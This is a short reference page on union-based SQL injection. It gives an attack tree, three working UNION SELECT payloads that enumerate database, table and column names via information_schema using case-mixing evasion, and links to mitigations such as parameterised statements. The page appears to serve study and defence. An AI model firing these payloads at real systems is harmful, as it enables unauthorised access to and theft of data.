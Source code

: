 # Extracting data from the database

## Attack tree

```text
1 SQL injection extract data from 
    1.1 Find out if the database is vulnerable (AND)
        1.1.1 Inject data in the query without breaking it
    1.2 Find the amount of columns (AND)
    1.3 Find which columns accept queries (AND)
    1.4 Build an UNION SELECT SQL segment that will modify the WHERE clause and make it true
    1.5 Inject SQL statements into the column
    1.4 Post exploitation SQL commands
```
## Examples

Database names:
```text
-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata
```

Tables of a database:
```text

-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]
```

Column names:
```text
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
```

## Notes

Union-based SQL injection is the most common of all the SQL injections. It uses the UNION statement to integrate two or 
more SELECT statements in a SQL query thereby obtaining data illegally from the database.

## Cheatsheets
* [Detect number of columns](cheatsheets:docs/databases/number-of-columns)
* [MySQL commands](cheatsheets:docs/databases/mysql-commands)

## Mitigations
* [Parameterised statements](app-mitigations:docs/databases/parameterised)
* [Input validation](app-mitigations:docs/databases/Input-validation)